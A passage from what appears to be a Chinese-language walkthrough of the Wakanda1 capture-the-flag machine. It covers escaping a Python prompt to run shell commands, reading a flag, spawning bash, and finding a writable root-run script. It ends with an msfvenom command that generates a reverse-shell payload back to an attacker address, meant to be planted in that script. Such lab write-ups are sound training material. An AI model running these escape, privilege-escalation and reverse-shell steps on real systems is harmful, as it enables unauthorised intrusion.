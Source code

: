 发现是个python命令行

拿到第一个flag

```
You are now leaving help and returning to the Python interpreter.     
If you want to ask for help on a particular object directly from the  
interpreter, you can type "help(object)".  Executing "help('string')" 
has the same effect as typing a particular string at the help> prompt.
>>> os.system("ls")                                                   
Traceback (most recent call last):                                    
  File "<stdin>", line 1, in <module>                                 
NameError: name 'os' is not defined                                   
>>> import os                                                         
>>> os.system("ls")                                                   
flag1.txt                                                             
0                                                                     
>>> os.system("cat fla*")                                             
                                                                      
Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc                               
0                                                                     
```

或者也可利用下面命令切换到熟悉的bash环境

```python
import pty
pty.spawn("/bin/bash")
```

遗憾的是这个用户并不能sudo

```
mamadou@Wakanda1:~$ sudo -l
[sudo] password for mamadou:
Sorry, user mamadou may not run sudo on Wakanda1.
```

/home目录下还有个用户devops

> Tips:
>
> 可以利用
>
> ```bash
> find / -user devops 2>/dev/null
> ```
>
> 其中2>/dev/null是不显示出错（权限不足）的提示信息

发现/srv/.antivirus.py是可写的

如果会定时执行的化就可以写个反弹shell了

可以用msfvenom自动生成脚本

```bash
msfvenom -p cmd/unix/reverse_python lhost=<攻击机的地址> lport=2333 R
```
